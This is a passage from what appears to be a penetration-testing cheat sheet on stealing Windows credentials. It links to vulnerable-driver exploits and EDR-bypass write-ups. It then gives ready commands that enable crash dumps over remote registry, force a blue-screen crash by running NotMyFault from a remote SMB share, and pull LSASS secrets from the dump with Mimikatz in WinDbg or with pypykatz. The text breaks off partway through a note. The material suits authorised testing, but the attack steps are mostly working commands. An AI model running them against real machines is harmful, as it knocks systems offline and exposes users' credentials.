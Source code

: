 - [https://www.matteomalvica.com/blog/2020/07/15/silencing-the-edr/](https://www.matteomalvica.com/blog/2020/07/15/silencing-the-edr/)
- [https://www.secureauth.com/labs-old/gigabyte-drivers-elevation-of-privilege-vulnerabilities/](https://www.secureauth.com/labs-old/gigabyte-drivers-elevation-of-privilege-vulnerabilities/)
- [https://github.com/uf0o/windows-ps-callbacks-experiments/tree/master/evil-driver](https://github.com/uf0o/windows-ps-callbacks-experiments/tree/master/evil-driver)
- [https://github.com/fengjixuchui/gdrv-loader](https://github.com/fengjixuchui/gdrv-loader)
- [https://github.com/ASkyeye/CVE-2018-19320](https://github.com/ASkyeye/CVE-2018-19320)




## Physical Memory



### Crash Dumps

- [https://danielsauder.com/2016/02/06/memdumps-volatility-mimikatz-vms-part-3-windbg-mimikatz-extension/](https://danielsauder.com/2016/02/06/memdumps-volatility-mimikatz-vms-part-3-windbg-mimikatz-extension/)

Crash the target machine, e. g. with [NotMyFault](https://learn.microsoft.com/en-us/sysinternals/downloads/notmyfault):

{% hint style="warning" %}
**This action causes DOS!** Do at your own risk.
{% endhint %}

```
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 query -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\CrashControl'
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 add -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\CrashControl'  -v CrashDumpEnabled -vt REG_DWORD -vd 1
$ cme smb 192.168.1.1 -u snovvcrash -p 'Passw0rd!' -x '\\10.10.13.37\notmyfaultc64.exe -accepteula /crash 0x03' --no-output
```

Parse LSASS with Mimikatz and [WinDbg](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools#small-classic-windbg-preview-logo-debugging-tools-for-windows-windbg):

```
(WinDbg) kd> .load c:\mimilib.dll
(WinDbg) kd> .SymFix
(WinDbg) kd> .Reload
(WinDbg) kd> !process 0 0 lsass.exe
(WinDbg) kd> .process /r /p fffffa80072b2b10
(WinDbg) kd> !mimikatz
```

Or with [Pypykatz plugin](https://github.com/skelsec/pypykatz-volatility3) for Volatility 3:

```
$ python3 vol.py -f MEMORY.dmp -p ~/tools/pypykatz-volatility3 pypykatz
```

{% hint style="info" %}
Current version of `vol_pypykatz.py` need some changes to work with relevant version of Volatility 3:

